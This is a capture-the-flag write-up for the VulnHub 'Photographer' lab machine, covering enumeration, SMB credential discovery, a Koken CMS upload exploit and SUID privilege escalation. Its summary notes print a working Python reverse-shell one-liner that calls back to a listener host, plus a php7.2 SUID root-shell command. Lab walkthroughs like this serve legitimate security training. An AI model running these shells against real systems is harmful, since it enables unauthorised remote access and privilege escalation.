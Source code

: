 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB, koken_CMS, php]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


##### 💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

***This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.***


### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal through `feroxbuster` Tool →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

Then I checked port 8000, I found this `koken CMS` page.

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

I searched through public exploit from searchsploit Tool and found this exploit related to `koken CMS`. 

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part as well →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```
{: .nolineno}
{: .nolineno}

I guess I got in successfully !

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Lets do some further reconnaissance from internet →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

Got the results my RFI is working fine →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}
{: .nolineno}

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}
{: .nolineno}

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `./usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }